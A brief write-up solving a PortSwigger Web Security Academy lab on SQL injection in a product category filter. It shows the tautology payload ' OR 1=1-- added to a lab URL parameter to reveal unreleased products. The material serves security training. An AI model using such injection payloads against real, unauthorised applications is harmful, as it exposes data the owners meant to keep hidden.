 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Lab's description
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

**End goal:** Display one or more unreleased products.

## Solution

Firstly, you go to home page and choose any category.

**Link** `https://0a89005304a405808199a7b6004700ae.web-security-academy.net/filter?category=Lifestyle`

We will see there are only 3 items; then we modify the link by adding `' OR 1=1--`

**Link:** `https://0a89005304a405808199a7b6004700ae.web-security-academy.net/filter?category=Lifestyle%27+OR+1=1--`

After modifying, we can see there are more items added.

**Source:** [Lab: Retrieving hidden data](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-hidden-data/sql-injection/lab-retrieve-hidden-data#)
